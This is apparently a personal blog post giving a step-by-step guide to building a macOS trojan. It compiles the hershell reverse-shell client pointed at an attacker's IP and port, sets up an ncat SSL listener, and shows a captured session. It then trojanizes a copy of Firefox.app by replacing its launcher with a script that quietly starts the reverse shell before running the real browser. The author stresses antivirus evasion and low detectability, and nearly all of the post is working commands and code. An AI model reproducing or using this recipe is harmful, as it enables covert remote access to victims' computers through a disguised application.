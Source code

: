 ```yaml
---
title: 'Building a MacOS Trojan'
layout: post
permalink: building-mac-trojan
tags: all, mac, cybersecurity
---
```


This article will outline a simple method I used for building and deploying malware on MacOS. I wanted to do this to prepare for reading Patrick Wardle's book [The Art of Mac Malware](https://taomm.org/).

## Setting up the Reverse Shell:

A simple reverse shell will serve as the base malicious payload that will be executed on the victim machine. I like this method because it is extremely simple and should evade antivirus.

I'm going to use [hershell](https://github.com/lesnuages/hershell), a very simple, cross-platform reverse shell client written in Go. I'll compile the client and server on an Arch Linux machine.

### Setup Hershell:

```bash
pacman -Sy --noconfirm go
```

Since I don't need the go environment to persist on my server, let's set the `GOPATH` variable to `/tmp/go` and grab hershell:

```bash
export GOPATH=/tmp/go
go get github.com/lesnuages/hershell
go get github.com/lesnuages/hershell/shell
```

### Compile Hershell for MacOS Victim:

Now prepare and compile hershell for the MacOS victim (change the `LHOST` and `LPORT` variables to your attacking machine/server):

```bash
cd /tmp/go/src/github.com/lesnuages/hershell/
make depends

make macos64 LHOST=192.168.1.50 LPORT=5000
```

The MacOS binary for the victim machine should now be available at `/tmp/go/src/github.com/lesnuages/hershell/hershell`:

```bash
❯ file /tmp/go/src/github.com/lesnuages/hershell/hershell
/tmp/go/src/github.com/lesnuages/hershell/hershell: Mach-O 64-bit x86_64 executable
```

### Setup the Malicious Listener on Server:

Generate the server certificate for hershell and install nmap so that we can use `ncat` as the listener on the attacking server:

```bash
cd /tmp/go/src/github.com/lesnuages/hershell/
make depends

pacman -Sy --noconfirm nmap
```

Then run the listener on the attacking machine:

```bash
ncat --ssl --ssl-cert /tmp/go/src/github.com/lesnuages/hershell/server.pem --ssl-key /tmp/go/src/github.com/lesnuages/hershell/server.key -lvp 5000
```

This is what it looks like when a session is established:

```bash
❯ ncat --ssl --ssl-cert /tmp/go/src/github.com/lesnuages/hershell/server.pem --ssl-key /tmp/go/src/github.com/lesnuages/hershell/server.key -lvp 5000
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::5000
Ncat: Listening on 0.0.0.0:5000
Ncat: Connection from 192.168.1.2.
Ncat: Connection from 192.168.1.2:52866.
[hershell]> whoami
heywoodlh
[hershell]> echo $HOSTNAME
unix-machine
```


## Trojanize an Application:

I'm going to trojanize Firefox since I use Firefox a ton. This method is super simplistic, but it gets the job done. And most likely, it wouldn't be detected unless a user was vigilant.

I'm going to perform the following commands on a Mac with Firefox already installed. You could replace Firefox with another application if you wanted to.

Copy Firefox.app:

```bash
cp -r /Applications/Firefox.app /tmp/Firefox-trojan.app
```

Place the `hershell` binary that you created on the attacking server in `/tmp/Firefox-trojan.app/Contents/MacOS`.

Rename the original Firefox binary file:

```bash
cd /tmp/Firefox-trojan.app/Contents/MacOS
mv firefox firefox.orig
```

Now create a shell script in place of the `firefox` binary that will run hershell and then will run the original `firefox` binary:

```bash
touch firefox
chmod +x firefox
```

Then add the following content to the new `firefox` file:

```bash
#!/usr/bin/env bash

full_path=$(dirname $(realpath $0))

/usr/bin/screen -dmS reverse-shell ${full_path}/hershell

${full_path}/firefox-bin
```

This method will use the `screen` command to run hershell in the background with a session name of `reverse-shell`. This method is not discrete at all, but I don't really care in this case.


## Profit:

When the Firefox-trojan.app is opened, it should attempt to create a reverse shell with the attacking server that is listening for a connection.

![alt text](https://git.sr.ht/\~heywoodlh/the-empire.systems/blob/master/images/trojan-firefox.png "Trojanized Firefox")

